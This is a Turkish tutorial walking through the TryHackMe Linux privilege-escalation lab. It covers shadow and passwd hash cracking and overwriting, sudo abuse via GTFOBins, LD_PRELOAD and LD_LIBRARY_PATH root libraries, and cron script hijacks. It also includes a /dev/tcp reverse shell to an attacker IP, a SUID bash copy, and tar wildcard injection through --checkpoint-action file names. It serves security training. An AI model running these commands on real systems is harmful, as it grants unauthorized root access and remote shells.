

# Linux Privilege Escalation (Linux Yetki Yükseltme)

<figure><figcaption></figcaption></figure>

Hedef bir sisteme çeşitli şekillerde sızdıktan sonra sistem üzerinde tam bir yetkiye sahip olamayabiliriz. Çeşitli yöntemlerle sahip olduğumuz yetkileri yükseltebiliriz. Yöntemlerimizi test etmek için Try Hack Me üzerinden bulunan [Linux PrivEsc](https://tryhackme.com/r/room/linuxprivesc) labından göstereceğim.

Öncelikle labda bulunan makineyi çalıştırıyoruz ve çalıştıktan sonra bize verilen SSH bilgileriyle hedef sisteme bağlanmalıyız. Hedef sisteme `10.10.94.109` Ip adresiyle ulaşacağız. SSH bağlantısı için user ve password321  ikilisi kullanıcak.

`ssh user@10.10.94.109`

### Okunabilir /etc/shadow

Linux sistemlerinde kullanıcı bilgileri /etc/passwd dosyasında, kullanıcı hashleri /etc/shadow dosyasında depolanır. Normal bir sistemde sistem yada kullanıcılar hakkında kritik bilgileri normal bir kullanıcının okuyamaması lazım.

Linux sistemimizde `/etc/shadow` dosyasının sahip olduğu izinleri görmek için şu komutu çalıştırıyoruz ve şu çıktıyı alıyoruz:

```
user@debian:~$ ls -al /etc/shadow

-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```

/etc/shadow dosyası üzerinde okuma ve yazma yetkimiz olduğunu görüyoruz. Güvenli bir sistemde bu izinlere sahip olmamız gerekiyor.

/etc/shadow dosyasında bulunan hash değerini okuyup John The Ripper yada Hashcat gibi araçlarla hash değerini kırmayı deneyebiliriz.

```
user@debian:~$ cat /etc/shadow

root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
...........................
```

Dosyayı okuduğumuzda root kullanıcısının şifre hash değerine ulaşıyoruz. `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0` hash değerini kendi makinemizde hash.txt dosyasının içine ekliyoruz.&#x20;

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Bu işlem sonucunda hashlenmiş şifre değerine ulaşıyoruz: `password123`

Elde ettiğimiz şifre ile artık root olabiliriz.&#x20;

<figure><figcaption><p>Şifre kısmında elde ettiğimiz şifreyi giriyoruz "password123"</p></figcaption></figure>

Root yetkilerine sahip olduktan sonra diğer yöntemlerle yetki yükseltmek için root yetkisinden `exit` komutuyla çıkıyoruz.

### Yazılabilir /etc/shadow

/etc/shadow dosyası üzerinde okuma ve yazma yetkilerimiz olduğunu görmüştük. Her zaman elde ettiğimiz hash değerini kıramayabiliriz. Bu yüzden var olan hash değerini kendi oluşturacağımız hash değeriyle değiştirebiliriz.

Öncelikle `mkpasswd -m sha-512 <newPassword>` komutuyla yeni bir hash değeri elde edebiliriz.

Metin editörleriyle birlikte /etc/shadow dosyası açılıp root kullanıcısının sahip olduğu hash değeri değiştirilip kaydedilir. Sonrasında su root yaparak kendi oluşturduğumuz şifreyle root yetkilerine sahip olacağız.

```
root@ip-10-10-63-77:~/Desktop# mkpasswd -m sha-512 yavuz
$6$2OGh.AKPtUIfLWD$62aars53c2GpdNPeeLwB5pfqdstcsKUhZLPhobwiyXXehe2uL8NllzXtMgu2icxgFAJoD/H8YiPc1z9epn1430

// Eski /etc/shadow dosyası
user@debian:~$ more /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
................................

// Hash değerini güncelledikten sonra /etc/shadow dosyası
user@debian:~$ cat /etc/shadow
root:$6$2OGh.AKPtUIfLWD$62aars53c2GpdNPeeLwB5pfqdstcsKUhZLPhobwiyXXehe2uL8NllzXtMgu2icxgFAJoD/H8YiPc1z9epn1430:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
................................
```

### /etc/passwd

/etc/passwd dosyası kullanıcılar hakkında bilgileri barındırır. Yetkisiz bir kullanıcı bu içeriği okuyabilir ama üzerinde yazma yetkisine sahip olmaması lazım. Bizim hedef sistemimizde /etc/passwd dosyası üzerinde ne yetkilerimiz var bakalım.

```
user@debian:~$ ls -al /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
```

Dosya üzerinde yazma yetkisine sahibiz. Eski Linux sürümlerinde şifre hashleri /etc/passwd dosyalarında depolanırdı. Bazı sürümlerde hala bu durum geçerlidir.

cat komutuyla /etc/passwd dosyamızı okuyalım ve dosya yapısını görelim.

```
user@debian:~$ cat /etc/passwd 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
........................
```

root kelimesinden sonra gelen x karakteri /etc/passwd dosyasında şifre içermediğini, /etc/shadow dosyasında bu kullanıcı ile ilgili şifre olabilir anlamına geliyor. x değerini silip buraya hashlenmiş şifre değerini eklersek bizim sahip olacağız yeni root şifresi bu olacaktır.&#x20;

`mkpasswd -m sha-512 yavuzkuk55` komutuyla yeni hash değeri oluşturuluyor. /etc/passwd dosyasında bulunan x değeri kaldırılıp elde ettiğimiz hash değeri eklenmiştir.&#x20;

```
user@debian:~$ cat /etc/passwd

root:$6$PO6v6WfO$k4pUdK.o9nLWcqpalwU.oX3slTdCzfd6mwQ8LRraAUYflxWYUvNVQiQz9NWRKnKJ6bsebKIiskl6ijux2R6EC.:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

`su root` komutu yazdıktan sonra oluşturduğumuz şifre ile sisteme root yetkileriyle giriş yapabiliriz.

***

### sudo

Bazı sitemlerde düşük seviye kullanıcılara bazı uygulamalar üzerinde istisnai root yetkileri verilebilir. Bu root yetkileri düşük izinlere sahip olan kullanıcılara sistem bütününde root yetkisi vermeden uygulamayı root yetkilerine sahipmiş gibi yürütmesinde işe yarar.

Sistem tarafından düşük izinlere sahip kullanıcılara verilen root yetkilerini görmek için `sudo -l` komutunu kullanacağız.

```
user@debian:~$ sudo -l

Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

Yukarıda gördüğümüz uygulamaların/komutların düşük seviye kullanıcıyken bile root yetkisine sahipmişiz gibi çalıştırabiliriz.

Gördüğümüz uygulamaların/komutların bize vermiş olduğu root yetkilerini sömürüp sistem genelinde root yetkilerine sahip olmak için [GTFOBins](https://gtfobins.github.io) sitesinde bulunan yönergeleri takip edeceğiz.&#x20;

GTFOBins sitesine giderek yukarıda karşımıza çıkan less komutunu arayacağız. GTFOBins sitesinde çeşitli uygulamalar için çeşitli yetki yükseltme teknikleri bulunmaktadır. Bizim burada aradığımız şey sudo yetkisiyle yetki yükseltme. &#x20;

<figure><figcaption></figcaption></figure>

Kırmızı kutu içerisinde yazan komutları sırasıyla komut satırında çalıştırıyoruz.

```
sh-4.1# sudo less /etc/profile
```

Bu komut sonrasında karşımıza çıkan uzun içeriğin sonuna en son komutumuzu ekliyoruz.&#x20;

```
# /etc/profile: system-wide .profile file for the Bourne shell (sh(1))
# and Bourne compatible shells (bash(1), ksh(1), ash(1), ...).

if [ "`id -u`" -eq 0 ]; then
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
else
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
fi
export PATH

if [ "$PS1" ]; then
  if [ "$BASH" ]; then
    # The file bash.bashrc already sets the default PS1.
    # PS1='\h:\w\$ '
    if [ -f /etc/bash.bashrc ]; then
      . /etc/bash.bashrc
    fi
  else
    if [ "`id -u`" -eq 0 ]; then
      PS1='# '
    else
      PS1='$ '
    fi
  fi
fi

# The default umask is now handled by pam_umask.
# See pam_umask(8) and /etc/login.defs.

if [ -d /etc/profile.d ]; then
  for i in /etc/profile.d/*.sh; do
    if [ -r $i ]; then
      . $i
    fi
// !!!!!!!!!!!!!!!!!
!/bin/sh
// !!!!!!!!!!!!!!!!!
```

En son komutumuzu ekledikten sonra enter tuşuna basıyoruz ve bizi root kullanıcı yapıyor.&#x20;

```
user@debian:~$ sudo less /etc/profile
sh-4.1# whoami
root
```

### LD\_PRELOAD

`sudo -l` komutu kullandıktan sonra bazı uygulamaların ve komutların GTFOBin sitesinden nasıl sömürüleceğini gördük ama yukarıdaki çıktımızda bulunan apache2 uygulaması sitede bulunmuyor.

Sitede bulunan yöntemlerle apache2 üzerinden yetki yükseltme yapamıyoruz. Bunun yerine farklı bir yöntem izleyeceğiz.

Öncelikle `sudo -l` çıktısına tekrardan bakıyoruz.

```
user@debian:~/tools/sudo$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

3.satırda LD\_PRELOAD ve LD\_LIBRARY\_PATH değerleini görüyoruz. Bu ifadeleri açıklamak gerekirse:

* &#x20;LD\_PRELOAD değeri bir uygulama çalıştırılmadan önce sistemde bulunan bir kütüphaneyi zorla yükler.
* LD\_LIBRARY\_PATH  uygulamanın kullandığı kütüphaneleri aramak için bakacağı ilk dizini vermemize yarar.

Sırasıyla bu konularda örnekler yapacağız.&#x20;

Öncekikle apache2 uygulamasını çalıştırırken LD\_PRELOAD seçeneğiyle kendi oluşturduğumu kütüphaneyi çalıştırmaya zorlayacağız.

Bağlandığımız sistemde `/home/user/tools/sudo` altında preload.c adında bir dosya bulunmakta.&#x20;

```
user@debian:~/tools/sudo$ cat preload.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

C kodunu okuduğumuzda çevre değişkeni kaldırılır, kullanıcı kimlik id değerleri değiştirilir ve /bin/bash komutu çalıştırılır. Öncelikle C kodunu derleyip kütüphane haline getirmeliyiz.&#x20;

Bunun için şu komutu kullanacağız:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

Bu komut sonrasında /tmp klasörü altında preload.so adında bir kütüphane dosyası oluşturuldu. apache2 uygulamamızı çalıştırken bu kütüphaneyi yüklemesini sağlamamız lazım.

```
user@debian:/tmp$ ls
backup.tar.gz  preload.so  useless
user@debian:/tmp$ sudo LD_PRELOAD=/tmp/preload.so apache2
root@debian:/tmp# whoami
root
```

Bu işlem sonunda root yetkisine sahip oluyorum.

### LD\_LIBRARY\_PATH

Yine apache üzerinden işlem yapacağız. Öncelikle apache2 uygulamasının hangi kütüphanelerini kullandığını öğrenmek için ldd komutunu kullanıyoruz.

```
user@debian:~/tools/sudo$ ldd /usr/sbin/apache2
	linux-vdso.so.1 =>  (0x00007fff509f0000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f8829cd0000)
	libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f8829aac000)
	libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f8829872000)
	libpthread.so.0 => /lib/libpthread.so.0 (0x00007f8829656000)
	libc.so.6 => /lib/libc.so.6 (0x00007f88292ea000)
	libuuid.so.1 => /lib/libuuid.so.1 (0x00007f88290e5000)
	librt.so.1 => /lib/librt.so.1 (0x00007f8828edd000)
	libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f8828ca6000)
	libdl.so.2 => /lib/libdl.so.2 (0x00007f8828aa1000)
	libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f8828879000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f882a18d000)
```

/home/user/tools/sudo/ altında bulunan library\_path.c dosyasını derleyeceğiz ve çıktı ismine apache2 uygulamasının kullandığı kütüphanelerden birinin ismini vereceğiz.

Örnek olması amacıyla derlenmiş kodun ismini `libcrypt.so.1` olarak seçeceğim.

```
user@debian:/tmp$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Sonrasında oluşturduğumuz kütüphanenin yolunu uygulama çalıştırılırken veriyoruz.&#x20;

```
user@debian:/tmp$ sudo LD_LIBRARY_PATH=/tmp apache2
apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)
root@debian:/tmp# whoami
root
```

### Cron

Cron dediğimiz yapı işletim sisteminde belirlenmiş zamanlarda ve aralıklarda çalıştırılan scriptler ya da çalıştırılan uygulamalardır.

Sistemde var olan cronları görmek için `/etc/crontab` dosyasını okuyabiliriz.

```
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

overwrite.sh ve /usr/local/bin/compress.sh adında iki tane dosyamız. Öncelikle overwrite.sh dosyası üzerinden root yetkilerine sahip olmaya çalışalım.

Locate komutu ile dosyanın nerede olduğunu öğrenmeye çalışalım ve dosya içeriğini okuyalım.

```
user@debian:~$ locate overwrite.sh
locate: warning: database `/var/cache/locate/locatedb' is more than 8 days old (actual age is 1580.2 days)
/usr/local/bin/overwrite.sh
user@debian:~$ ls -al /usr/local/bin/overwrite.sh 
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
user@debian:~$ cat /usr/local/bin/overwrite.sh 
#!/bin/bash

echo `date` > /tmp/useless
```

Dosya üzerinde yazma ve okuma izinlerine sahibiz. Dosya içeriğini değiştirip root yetkisine sahip olmaya çalışacağız.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.188.242/4444 0>&1
```

Bu komutu yazıp kaydettikten sonra kendi sistemimizde netcat ile dinleme yapmamız gerekiyor ve 1 dakika bekledikten sonra root yetkisine sahip oluyoruz.&#x20;

<figure><figcaption></figcaption></figure>

### Cron2

Tekrardan cron dosyaların ve ayarlarına bakalım.

```
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Bu yöntemimizde ise /usr/local/bin/compress.sh dosyasını manipüle edeceğiz. Yukarıdaki çıktıda görüyorsunuz ki PATH değerlerinde /home/user değeri bulunmakta. Herhangi bir dosya çalıştırılacağında PATH değerinde bulunan pathler kontrol edilir. Gördüğümüz üzere /home/user path değeri diğer değerlerden önce bulunuyor. Eğer biz /home/user altında compress.sh adında bir dosya oluştursak /usr/local/bin/compress.sh dosyasının önüne geçer ve zararlı komutları çalıştırmış oluyoruz.

Oluşturacağımız dosyanın içeriğini şu şekilde oluşturuyoruz.

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Bundan sonra compress.sh dosyası çalışıcağı zaman /home/user altında bulunan dosya üzerinden çalıacak ve /bin/bash binaryisini /tmp/rootbash olarak kopyalıyor.

```
user@debian:~$ nano overwrite.sh
user@debian:~$ chmod +xs overwrite.sh 
user@debian:~$ ls /tmp/
backup.tar.gz  rootbash  useless
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# whoami
root
```

/tmp klasörü altında oluşan rootbash dosyasını silmeyi ve root yetkisinden çıkmayı unutmayalım.

### Cron3

Sahip olduğumuz /usr/local/bin/compress.sh dosyasına dokunmadan yetki yükselttik peki bu dosya ne iş yapıyor.

```
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Bu komut user dizini altındaki dosyaların hepsini alıp tar ile arşivliyor (zip gibi). Bu konuma yeni bir dosya oluşturacağız ve bu dosyanın çalıştırılmasını sağlayacağız.

```
user@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
```

Bu komut ile /bin/bash binaryisini /tmp klasörüne bash isminde bir dosya olarak kopyalıyoruz. Bu komutları içere dosyayı da /home/user/ altında runme.sh adıyla oluşturuyoruz.

Bu komuttan sonra iki farklı dosya oluşturmamız gerekiyor. Dosya oluşturmak için touch komutu kullanılıyor. Oluşturacağımız dosyaların isimleri normal dosya isimlerine göre biraz farklı olacak.

<pre><code>user@debian:~$  touch /home/user/--checkpoint=1
user@debian:~$  touch /home/user/--checkpoint-action=exec=sh\ runme.sh

<strong>user@debian:~$  
</strong><strong>--checkpoint=1	myvpn.ovpn    runme.sh
</strong>--checkpoint-action=exec=sh runme.sh  overwrite.sh  tools
</code></pre>

Bu oluşturduğumuz dosyalar şu işe yarar, öncelikle `--checkpoint=1` bu parametre, bir kontrol noktasının nasıl ve ne zaman ayarlanacağını belirler `--checkpoint-action=exec=sh runme.sh` bu dosya , programı belirli bir aşamaya geldiğinde otomatik olarak bir komut çalıştırmak için kullanışlıdır.

Bizim örneğimizde 1 dosya yedekledikten sonra oluşturduğumuz zararlı yazılım olan runme.sh dosyasını çalıştıracak ve bu sayede root yetkisine sahip olacağız.

### SUID ve SGID

SUID bit ayarlandığında, bir dosya çalıştırıldığında bu dosya, çalıştıran kullanıcının kimliği yerine dosyanın sahibinin kimliği ile çalışır. Bu, kullanıcının sahip olmadığı bazı ayrıcalıklara sahip olabileceği anlamına gelir.

SGID bit ayarlandığında, bir dosya çalıştırıldığında bu dosya, çalıştıran kullanıcının grup kimliği yerine dosyanın grup kimliği ile çalışır. Bu, dosyanın sahibi değil de, dosyanın grubuna atanmış haklar üzerinden çalışmasını sağlar.
